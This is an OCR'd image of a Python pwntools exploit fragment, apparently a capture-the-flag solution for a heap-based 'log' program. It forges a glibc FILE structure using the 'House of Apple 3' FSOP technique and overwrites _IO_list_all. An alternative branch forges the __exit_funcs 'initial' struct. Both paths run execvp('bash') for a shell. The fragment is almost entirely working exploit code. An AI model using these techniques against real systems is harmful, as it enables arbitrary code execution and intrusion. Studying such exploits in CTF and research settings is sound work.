 ```python
    
    if useFSOP:
        sh.recvuntil(b'OFFSET')
        forgedFileAddr = u64(sh.recv(8)) - 0x160 + 0x10 # skip time str
        assert forgedFileAddr & 0xff != 0xa, "unexpected empty FreeList after 0x160-size chunk"
        success(GOLD_TEXT(f"Leak forgedFileAddr: {forgedFileAddr:#x}"))
        
        # payload of IO according to House of Apple 3, @ logs idx 10
        forgedFile = flat({
            0:      0,  # file._flag
            0x10:   1,  # file._IO_read_end
            0x28:   1,  # file._IO_write_ptr
            0x30:   forgedFileAddr + 0x48,                  # _codecvt->__cd_in.step
            0x48:   b'bash',                                # step.__shlib_handle
            0x70:   libc.symbols['execvp'],                 # step.__fct
            0x88:   forgedFileAddr + 0x150,                 # file._lock
            0x98:   forgedFileAddr + 0x30,                  # file._codecvt
            0xa0:   forgedFileAddr + 0xe0,                  # file._wide_data 
            0xd8:   libc.symbols['_IO_wfile_jumps'] + 8,    # file._vtable
            0xe0:   forgedFileAddr + 0x48,                  # _wide_data._IO_read_ptr
            0xe8:   forgedFileAddr + 0x48,                  # _wide_data._IO_read_end
            0x110:  forgedFileAddr + 0x48,                  # _wide_data._IO_buf_base
            }, filler=b'\0') # be careful! a lot operations in the procedure
        newlog(0x160, False, b' ' * 5 + forgedFile)
        dbg()

        newlog(256, False, 
                b'As we can PTR_MANGLE, we control rdi and rsi. ' \
                b'rdi is "bash" and rsi is (char *[]){"bash", NULL}, ' \
                b'bypassing rdi=="/bin/sh".' \
                .ljust(0x93 - 12) + b'\n')
        newlog(80, False, b' ' * 5 + p64(libc.symbols['_IO_list_all'] - 16))
        newlog(80, True, b'ignored')
        displaylog()

        newlog(80, False, b"Finally, write forgedFileAddr on _IO_list_all")
        info(GREEN_TEXT(f"Alloc @ {libc.symbols['_IO_list_all'] - 16:#x} to hijack IO"))
        newlog(80, False, b' ' * 5 + p64(forgedFileAddr))
        backdoorIdx = 10

    else: # do not use FSOP
        newlog(256, False, 
                b'I found a new solution, writing __exit_funcs!' \
                .ljust(0x65 - 12) + b'\n')
        initial = libc.address + 0x204fc0
        newlog(0xa0, False, b' ' * 5 + p64(initial - 0x68))
        newlog(0xa0, True, b'ignored')
        displaylog()

        newlog(0xa0, False, b"Finally, write __exit_funcs to run execvp at exit")
        info(GREEN_TEXT(f"Alloc @ {initial - 0x68:#x} to hijack exit"))
        # fake initial struct @ logs idx 12
        fakeInitial = flat({
            0x38:   1,       # __new_exitfn_called
            0x60:   1,       # initial+8
            0x68:   4,
            0x70:   libc.symbols['execvp'],
            0x78:   initial - 0x68 + 11
            }, filler=b'\0')
        newlog(0xa0, False, b'bash\0' + fakeInitial)
        backdoorIdx = 12

    backdoor(True)
```